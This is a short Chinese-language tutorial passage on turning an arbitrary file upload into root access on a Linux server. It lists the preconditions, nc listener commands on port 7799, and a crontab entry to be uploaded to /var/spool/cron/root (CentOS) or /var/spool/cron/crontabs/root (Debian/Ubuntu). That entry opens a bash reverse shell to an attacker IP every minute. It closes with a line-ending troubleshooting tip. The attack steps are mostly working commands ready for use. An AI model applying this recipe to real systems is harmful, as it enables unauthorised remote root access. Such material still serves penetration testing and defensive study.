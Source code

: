   

### 利用路径一

条件：

-   目标服务器的 cron 正常运行
    
-   上传路径可以控制
    
-   可以上传任意后缀文件，因为这里需要上传 root 命名的文件
    

上传到：/var/spool/cron/ （需要有读写的权限）

nc 监听

```plain
nc -lvnp 7799  #直接监听
nc -lvnp 7799 -s 192.168.88.133 #指定 IP 监听
```

上传文件到  /var/spool/cron/root 中。(centos 系列主机)

上传文件到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu 系列主机)

```plain
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/192.168.88.133/7799 0>&1
```

上传的文件名需为用户名称，如：root、test 等用户

![图片](assets/1711884896-050b01d2be57104228f0256ed7fb428a.webp)

  

这里踩了个坑，因为我攻击机是 win，然后目标是 Linux，换行会涉及到一些编码的问题，直到我在 notepad++ 上转为 Unix 之后才能成功。
